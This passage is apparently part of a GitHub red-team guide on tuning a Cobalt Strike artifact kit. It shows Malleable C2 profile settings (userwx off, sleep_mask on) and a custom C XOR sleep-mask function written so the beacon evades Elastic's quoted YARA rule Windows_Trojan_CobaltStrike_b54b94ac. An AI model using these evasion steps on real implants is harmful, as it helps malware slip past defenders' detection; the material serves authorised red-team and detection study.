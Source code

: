 - Polymorphism: The kit can generate different variants of the same payload, each with different encrypted strings or obfuscated patterns. This makes it harder for signature-based detection mechanisms to identify the payload.

![image](https://github.com/user-attachments/assets/d82df3db-7b2e-4489-8e8c-5842f5f981f3)

#### USERWX Configuration 

Before enabling Sleep Mask we need to understand the userwx

Whether to set the memory to readable, writable and executable during reflective loading. 
The default is RWX. so we need to set to it to false in our profile. 

```javascript
################################################
## Memory Indicators
################################################
stage {
    set userwx         "false";
    }
```

then we need to set the sleep_mask to true in our profile.

```javascript
################################################
## Memory Indicators
################################################
stage {
    set userwx         "false";
    set sleep_mask     "true";
    }
```

NOTE: you may need to edit the sleep mask src file.

In my case i just wrote this function in the sleep_mask.c in the original artifact kit


```c
void my_mask_section(SLEEPMASKP *parms, DWORD start, DWORD end) {
    char key[] = "a1b2c3d4e5f6g7h8";
    size_t key_length = sizeof(key) - 1;  
    for (DWORD i = start; i < end; i++) {
        parms->beacon_ptr[i] ^= key[i % key_length];  
    }
}
```

Then we should change the old function name.

![image](https://github.com/user-attachments/assets/4d619ee6-95d1-4bf9-8ad6-5c522a700ef4)

If you used the defult function, your beacon will be flagged by Windows_Trojan_CobaltStrike_b54b94ac

```javascript
rule Windows_Trojan_CobaltStrike_b54b94ac {
    meta:
        author = "Elastic Security"
        id = "b54b94ac-6ef8-4ee9-a8a6-f7324c1974ca"
        fingerprint = "2344dd7820656f18cfb774a89d89f5ab65d46cc7761c1f16b7e768df66aa41c8"
        creation_date = "2021-10-21"
        last_modified = "2022-01-13"
        description = "Rule for beacon sleep obfuscation routine"
        threat_name = "Windows.Trojan.CobaltStrike"
        reference_sample = "36d32b1ed967f07a4bd19f5e671294d5359009c04835601f2cc40fb8b54f6a2a"
        severity = 100
        arch_context = "x86"
        scan_context = "file, memory"
```